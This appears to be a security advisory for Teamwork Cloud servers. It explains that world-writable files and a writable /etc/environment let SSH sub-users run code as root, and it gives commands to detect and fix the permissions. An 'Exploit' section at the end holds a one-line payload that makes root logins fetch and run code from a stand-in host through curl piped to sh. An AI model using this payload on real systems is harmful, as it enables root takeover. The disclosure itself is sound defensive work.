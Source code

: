 - IF the customer is allowing users to sign into their teamwork cloud server using SSH tunnel
e.g.
ssh -L localport:teamworkserver:teamworkserverport username@teamworkserver

** ANY sub-user who can SSH tunnel into your Teamwork Cloud instance may also be permitted to read & write to /etc/environment, allowing execution of arbitrary code on the TWC server, as root, effectively violating any security and permission controls whatsoever.

Secondly, veryify the contents of /home/twcloud, recursively:

```bash
# as root
find -type f /home/twcloud 2>/dev/null | xargs -i ls -lha "{}" | grep rwxrwxrwx 2>/dev/null
```

If you see any output from the above command, then the files inside the twcloud user, who runs the Teamwork Cloud server process, is affected.

```bash
# as root or twcloud
find /home/twcloud -type d -exec chmod 0755 {} \;
find /home/twcloud -type f -exec chmod 0644 {} \;
```
The above command will change the permissions of all folders to 755, and all files to 644 that are within the twcloud user home directory.

## Exploit

```bash
# as a subuser
tee -a /etc/environment <<'EOF'
[[ "$(whoami)" = root ]] && nohup bash -c "curl somevirus.com | sh" &
EOF

```
In above example, when root logs into the system, or the system is rebooted, the session will cause arbitrary code to be download from somevirus dot com, and subsequently execute that code in a background process.
